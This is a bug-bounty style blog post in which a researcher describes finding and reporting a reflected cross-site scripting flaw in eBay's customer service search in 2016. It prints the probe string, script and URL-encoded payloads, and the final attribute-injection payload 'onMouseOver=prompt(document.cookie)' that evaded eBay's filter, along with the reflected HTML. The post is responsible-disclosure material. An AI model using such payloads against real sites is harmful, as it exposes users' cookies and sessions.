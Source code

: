 ```yaml
---
title: "ByPassing EBay XSS Protection"
date: 2016-09-11T00:00:00+05:45
# post image
image: "images/blog/bypassing-ebay-xss-protection/1st.png"
# author
author: "Nirmal Dahal"
# post type (regular/featured)
type: "regular"
tags:
  - XSS
  - XSS Bypass
categories: 
  - vulnerability
# meta description
description: "I was surfing on Facebook and received a message from my brother, Samir, asking for advice regarding some musical instruments. The message contained an eBay link. Once on eBay, I logged into the site to view details and suddenly noticed the \"Help & Contact\" menu, I followed that menu and went to the \"Customer Service\" page where I saw a search field, I decided to check for \"Cross-Site Scripting [ XSS ]\" vulnerability and unexpectedly found POST type R-XSS."
# post draft
draft: false
---
```


Hi there, today I want to share small proof of concept regarding "Reflective Cross-Site Scripting [ R-XSS ]" which I had found on eBay back in 2016. I am not an active participant in bug bounty programs, but one day I had finished all my office works so I was surfing on Facebook and received a message from my brother, Samir, asking for advice regarding some musical instruments. The message contained an eBay link. Once on eBay, I logged into the site to view details and suddenly noticed the "Help & Contact" menu, I followed that menu and went to the "Customer Service" page where I saw a search field, I decided to check for "Cross-Site Scripting [ XSS ]" vulnerability and unexpectedly found POST type R-XSS.

#### Testing For XSS

As all security researchers do, I also have certain pathways to find vulnerabilities. I always use '>Test12345<" as it contains a number, letter, and syntax. This allows me to see how a website handles user inputs. Some questions like "is the user input sanitized? how sensitive is user input?" can be answered from this idea.

#### Finding XSS

Once I noticed the "Customer service" page with a search field, I used that specific text in the field. I noticed that the value was being reflected without [ >< " ]. I immediately figured out that eBay must have been replacing those syntaxes in White Space. The output in View-Source was like below:

```html    
<input type="text" id="query" role="combobox" name="query" value="‘ Test12345 " title="Search by help topic, keywords, or phrases" aria-expanded="false" aria-autocomplete="list" aria-activedescendant="" aria-value="‘ Test12345 " autocomplete="off" aria-owns="popup" class="dText3"></input>
```

To test and understand the application further, I used the payload below:
```html
"/><script>alert(1);</script><input type="
```

however, the syntax was still filtered by eBay. So I encoded it in URL ENCODE format:

```html
%22%2f%3E%3Cscript%3Ealert%281%29%3B%3C%2fscript%3E%3Cinput%20type%3D%22
```

After that the page source for that specific part was as follow:

```html
<input type="text" id="query" role="combobox" name="query" value="" script alert 1 script input type="" title="Search by help topic, keywords, or phrases" aria-expanded="false" aria-autocomplete="list" aria-activedescendant="" aria-value="" script alert 1 script input type="" autocomplete="off" aria-owns="popup" class="dText3"></input>
```

By seeing this, I realized that eBay was also filtering URL encoded syntax except for %22 & %3D which decoded value is " and =

After these research were made, I tweaked my payload a little to: **%22 onMouseOver=%22prompt(document.cookie)** which decodes to **" onMouseOver="prompt(document.cookie)**

Finally, after this, the XSS attack was successful and all was good to go.

```html
<input type="text" id="query" role="combobox" name="query" value=" " onMouseOver="prompt(document.cookie)" title="Search by help topic, keywords, or phrases" aria-expanded="false" aria-autocomplete="list" aria-activedescendant="" aria-value=" " onMouseOver="prompt(document.cookie)" autocomplete="off" aria-owns="popup" class="dText3"></input>
```
> Almost all eBay domains were vulnerable at that time including eBay.in, eBay.com.au etc

##### Reply From eBay Security Team
{{< image src="/images/blog/bypassing-ebay-xss-protection/2nd.png" caption="" alt="" height="" width="" position="center" command="fit" option="" class="img-fluid" title="" >}}
##### Acknowledgment By eBay
{{< image src="/images/blog/bypassing-ebay-xss-protection/3rd.png" caption="" alt="" height="" width="" position="center" command="fit" option="" class="img-fluid" title="" >}}
##### Video POC
{{< youtube s0Abd7h6vpg >}}

Thank you all for reading this write-up. Please feel free to ask if you have any confusion about this article and if I had made any mistake please leave a comment 🙂 or message me on Twitter.